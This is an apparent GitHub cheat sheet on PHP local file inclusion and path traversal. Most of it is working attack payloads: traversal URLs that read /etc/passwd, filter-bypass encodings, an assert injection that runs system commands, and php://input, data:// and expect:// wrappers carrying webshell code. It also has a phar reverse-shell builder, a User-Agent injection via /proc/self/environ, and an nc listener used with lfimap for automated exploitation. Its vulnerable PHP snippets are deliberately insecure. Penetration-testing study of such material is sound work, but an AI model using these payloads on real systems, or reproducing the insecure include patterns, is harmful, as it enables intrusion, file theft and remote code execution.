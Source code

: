 # Local File Inclusion and Path Traversal  

LFI - Executing local server files with PHP 'include', 'include_once', 'require' or 'require_once' functions.  

### Path traversal  
Path traversal means traversing the file structure with '../' or '..\\' sequences in order to read files 'below' the web server file path. Path traversals can be only used to read files on a web server, without execution.

```php
<?php include($_GET['file']); ?>
```

`http://linux_server/site.php?file=/../../../../../../../../../etc/passwd`  
`http://windows_server/site.php?file=\..\..\..\..\..\..\..\..\..\Windows\System32\drivers\etc\hosts`  

### Path normalization
Path normalization is done implicitly within PHP. Multiple subsequent slashes, as well as './' and '/.' are automatically stripped. This can be used to bypass bad sanitization.    
```php
<?php
# Disable inclusion of files ending with 'passwd'
if(substr($_GET['file'], -6, 6) != "passwd"){
   include($_GET['file']);
}
?>
```
`http://server/site.php?file=badfolder../../../../../../../../../../../etc/passwd/.`  
`http://server/site.php?file=badfolder../../../../../../../../../../../././././etc/././passwd/./.`  
`http://server/site.php?file=badfolder../../../../../../../../../../../../..////etc/////passwd/.`  

### Sanitization bypass
`?file=existingfolder/../../../../../../../../etc/passwd`  
`?file=doesnotexist../../../../../../../../../../.././etc/.//.//passwd//.`  
`?file=.+./.+./.+./.+./.+./.+./.+./.+./.+./.+./etc/passwd`  
`?file=....//....//....//....//etc/passwd`   
`?file=..///////..////..//////etc/passwd`  
`?file=/%5C../%5C../%5C../%5C../%5C../%5C../%5C../%5C../etc/passwd`  
`?file=%2e%2e%2f%2e%2e%2f%2e%2e%2fetc%2fpasswd`  
`?file=%252e/%252e/%252e/%252e/%252e/etc/passwd`  

### Extension blacklist bypass
Extension blacklisting can be bypassed with path normalization technique. By adding nonexisting directory as an argument prefix and normalization string in the end of parameter. Normalization string for linux is '/.' and './' on windows servers.  

```php
<?php
# PHP files are not allowed
if (substr($_GET['file'], -4, 4) != '.php')
   echo file_get_contents($_GET['file']);
else
   echo 'You are not allowed to see php source files!'."\n";
?>
```

`http://linux_server/site.php?file=nonexisting../../../../../../../../var/www/html/test.php/.`  
`http://windows_server/site.php?file=nonexisting..\..\..\..\..\..\..\..\wamp\web\test.php./`

### Assert code injection
If sanitization is done using assert function, injection arbitrary code could be possible.    
```php
<?php
    $file = $_GET['file'];
    assert("strpos('$file', '..') === false") or die("Detected hacking attempt!");
?>
```
`http://server/site.php?file=%27%20and%20die(show_source(%27%2Fetc%2Fpasswd%27))%20or%20%27`  
`http://server/site.php?file=%27%20and%20die(system(%22whoami%22))%20or%20%27`  

### Nullbyte injection 
When '.php' is appended, it can be bypassed with nullbyte in php versions before 5.3.4, or if 'magic_quotes_gpc' is set to Off.  
 
```php
<?php include($_GET['file'] . ".php"); ?>
```
`http://server/site.php?file=../../../../../../../../etc/passwd%00`  
`http://server/site.php?file=../../../../../../../../etc/passwd%2500`  
`http://server/site.php?file=../../../../../../../../etc/passwd\0`   


### File wrapper
`http://server/site.php?parameter=file:///etc/passwd`  

### Filter wrapper
Filter wrapper can be used as a bypass method. Loading/Including php file will execute it, therefore source code won't be shown. With filter wrapper source code can be disclosed in a form of encoded string, which will need to be decoded.  
`http://server/site.php?file=php://filter/resource=/etc/passwd`  
`http://server/site.php?file=php://filter/convert.base64-encode/resource=/etc/passwd`  
`http://server/site.php?file=php://filter/read=string.rot13/resource=/etc/passwd` 

### Data wrapper command execution
`http://server/site.php?file=data://text/plain;base64,PD9waHAgc3lzdGVtKCRfR0VUW2NdKTsgPz4K&c=cat%20/etc/passwd`  

### Input wrapper command execution
`curl -X POST "http://server/site.php?file=php://input&cmd=cat%20/etc/passwd" -d "<?php shell_exec($_GET['cmd']); ?>"`    
`curl -X POST "http://server/site.php?file=php://input&cmd=cat%20/etc/passwd" -d "<?php passthru($_GET['cmd']); ?>"`  
`curl -X POST "http://server/site.php?file=php://input&cmd=cat%20/etc/passwd" -d "<?php echo system($_GET['cmd']); ?>"`  
`curl -X POST "http://server/site.php?file=php://input" -d "<?php echo system('whoami'); ?>"`  

### Expect wrapper command execution
Very rare and by default not enabled.  
`http://server/site.php?file=expect://cat%20/etc/passwd`  

### Zip wrapper code execution
Zip wrapper can be used in order to gain code execution, with uploaded archive that has zipped malicious .php file inside it.    
`http://server/site.php?file=zip://uploads/shell.zip%23shell.php`      

### Phar wrapper code execution
Create malicious phar file with reverse shell or custom malicious code inside it - represented as 'mal.jpg'.  
```php
 <?php
    $p = new PharData(dirname(__FILE__).'/pharfile.zip',0,'pharfile2',Phar::ZIP);
    $x = file_get_contents('./reverse_shell.php');
    $p->addFromString('mal.jpg', $x);
  ?>
```
Compile phar with `php --define phar.readonly=0 create_path.php`  
`http://server/site.php?file=phar://pharfile.zip/mal.jpg`  

### /proc/self/environ code execution
If environ file can be included User-Agent string can be used in order to achieve rce. Make sure User-Agent is inside /proc/self/environ for this to work.       

`curl http://server/index.php?file=/proc/self/environ&cmd=id -H "User-Agent: <?php echo assert($_GET['cmd']);?>"`


### Lfimap

[Lfimap](https://github.com/hansmach1ne/lfimap), local file inclusion discovery and exploitation tool.  
Automatically tests filter, data, input, expect and file wrappers, path truncation, remote file inclusion, xss and command injection.

Test GET parameters  
`sudo python3 lfimap.py "http://server/index.php?page=PWN" -a`  

Test POST parameters   
`sudo python3 lfimap.py "http://server/index.php" -D "page=PWN" -a`  


Exploit vulnerable target automatically    
`sudo rlwrap nc -nvlp 99`  
`sudo python3 lfimap.py "http://server/index.php?page=PWN" -a -x --lhost <ip> --lport 99`
